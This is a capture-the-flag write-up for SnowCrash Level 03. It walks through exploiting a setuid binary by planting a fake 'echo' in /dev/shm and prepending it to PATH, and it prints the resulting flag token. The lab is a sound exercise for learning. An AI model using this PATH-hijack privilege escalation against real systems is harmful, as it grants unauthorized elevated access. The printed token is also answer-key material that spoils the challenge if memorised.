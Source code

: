 # Level 03

## Vulnerability
Privilege escalation - environment variables

## Context
In our home directory, we find a binary ```level03```

## Solution
```
level03@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
Here we see that when we run this binary, we run it with flag03 permissions (as indicated by the 's' for setuid after  '-rw').
We don't have the permissions to run ```getflag``` directly, but maybe we can use the `./level03` binary to run ```getflag``` for us. 
Let's run the file. 
```
level03@SnowCrash:~$ ./level03
Exploit me
```
We're on the right track. Let's investigate further.
```
level03@SnowCrash:~$ strings level03 | grep "Exploit"
/usr/bin/env echo Exploit me
```
It looks like ./level03 is calling ```echo``` from ```usr/bin/env```. It's calling binary that's defined by the environment.
So maybe the trick is to substitute our own ```echo``` binary, which calls ```getflag``` with ```flag03``` user permissions.

Let's confirm where the getflag is. 
```
level03@SnowCrash:~$ ls -l /bin | grep "getflag"
-rwxr-xr-x 1 root root   11833 Aug 30  2015 getflag
level03@SnowCrash:~$ cd bin; ./getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
As we suspected. Time for some redirection. 
```
level03@SnowCrash:~$ echo "/bin/getflag" > /dev/shm/echo
level03@SnowCrash:~$ chmod +x /dev/shm/echo
level03@SnowCrash:~$ PATH=/dev/shm:$PATH
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
